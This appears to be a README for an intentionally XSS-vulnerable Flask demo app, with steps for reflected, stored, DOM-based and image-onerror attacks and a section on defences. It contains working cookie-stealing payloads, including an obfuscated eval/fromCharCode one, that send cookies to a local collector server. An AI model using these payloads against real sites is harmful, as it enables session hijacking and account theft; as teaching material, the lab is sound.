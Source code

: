 # XSS-Demo (Extended)
Minimal, flask-powered python web app to demonstrate reflected and stored XSS attacks.
Less than 30 lines of Python + 40 lines HTML template.

![XSS Demo Screenshot](xss-demo-screenshot.png "XSS Demo Screenshot")

# Disclaimer

The current version is vulnerable to XSS.
This is meant for educational purposed only, please do not use it to attack websites.

# Quickstart

* Clone this repository.
* Create a [virtual environment](https://virtualenvwrapper.readthedocs.io/) (if you don't want to install `flask` in your global python environment) and 
  activate it.
* `pip install flask` to install flask in the virtual environment
* Run `flask run` in the vulnerable website folder
* Open [127.0.0.1:5000](http://127.0.0.1:5000/) in your webbrowser and have fun with XSS

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.


# How it works
## Conditions for this XSS payload to steal cookies from the user
* The [Content Security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) of the webpage must be misconfigured
  * [`httponly`](https://www.cookiepro.com/knowledge/httponly-cookie/) ensures that the cookies are not know by the javascript engine 
  * [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) must be incorrectly set
  * Redirection is not blocked.
* Autoescape must be off
  * There must be no autoescape at the side of the server.


# Demonstrations of XSS
## Things to note BEFORE trying the Demonstration
* Go to [127.0.0.1:5000/cookie](http://127.0.0.1:5000/cookie) to create set a cookie for the main website
* Run `python app.py` in the malicious website folder to run the malicious server to collect the cookies

To delete the cookie:
* Go to inspect element
* Go to Application Tab
* Click on cookies
* Right click on the entry that you want to delete

## Demonstration for reflected XSS
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the query blank
* Notice that the code is reflected inside the addressbar as a query.
* When the user clicks on the link containing the address, their cookies from the vulnerable website can be stolen

## Demonstration for Stored XSS
### WARNING, this will spam ping the server as the page is loading
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the comment blank
* Notice that the code is stored within the website
* When the user access the website, their cookies will automatically stolen until the comment is removed

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.

## Demonstration for DOM-Based XSS
* Key in `http://localhost:5000/?num=alert(123)` into the address bar
* An alert for 123 will appear as an alert

In order to do something similar to the above, we cannot directly, insert `window.location=document.location='http://127.0.0.1:1000/?c='+document.cookie;` into the address bar after the query as some characters might be escaped. The javascript in the DOM only has access to the raw escaped query string and not the unescaped string. Thus, another method is required.

In this case the `toString().constructor.fromCharCode` will be our best friend
* Make sure both servers are up
* Key in `eval(toString().constructor.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,39,104,116,116,112,58,47,47,49,50,55,46,48,46,48,46,49,58,49,48,48,48,47,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))` after the `num?` query.

What does it do?
* `toString().constructor.fromCharCode(...)` converts the character code for the javascript into a javascript string
* `eval` will evalucate the string. The string above corresponds to `document.location='http://127.0.0.1:1000/?c='+document.cookie;`
* The evaluator inside the DOM will evaluate the code as `document.location='http://127.0.0.1:1000/?c='+document.cookie;` and execute the reflected attack

You can make use of the XSSQueryFormer inside the folder to experiment around with the different javascript codes to be inserted as the payload

Usage:
* `python XSSQueryFormer.py "{Javascript Code here}"` to convert your code to javascript
* `python XSSQueryFormer.py -h` to show help message


# Different ways of executing XSS

## Execution of XSS through image loading
* Go to the images tab of the website
* Add ```' onerror="document.location='http://127.0.0.1:1000/?c='+document.cookie;"class=``` after the `#` symbol
* It will cause the xss script to execute and the cookie will be obtained by the malicious server

# Protection mechanisms

Of course you should never deactivate autoescaping in jinja/flask, so you should never have 
`{% autoescape false %}` in your production templates. 
<br>
This way you will always get the 
[standard HTML context filtering](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)
for variables in your templates.

The tooltip attack mentioned above can of course be avoided by using quotes correctly on 
[line 33 ](https://github.com/jh123x/xss-demo/blob/master/templates/index.html#L33):
```html
      <div title="{{ comment }}">
```

You can also test using 
[Content Security Policy headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) to 
disallow unsafe inline javascript by replacing 
[`app.py` line 16-18](https://github.com/jh123x/xss-demo/blob/master/app.py#L16-L18) with:

```python
    from flask import make_response
    r = make_response(render_template('index.html',
                      comments=comments,
                      search_query=search_query))
    r.headers.set('Content-Security-Policy', "script-src 'none'")
    return r
```


# Acknowledgements
This was forked from [bgres/xss-demo](https://github.com/bgres/xss-demo) 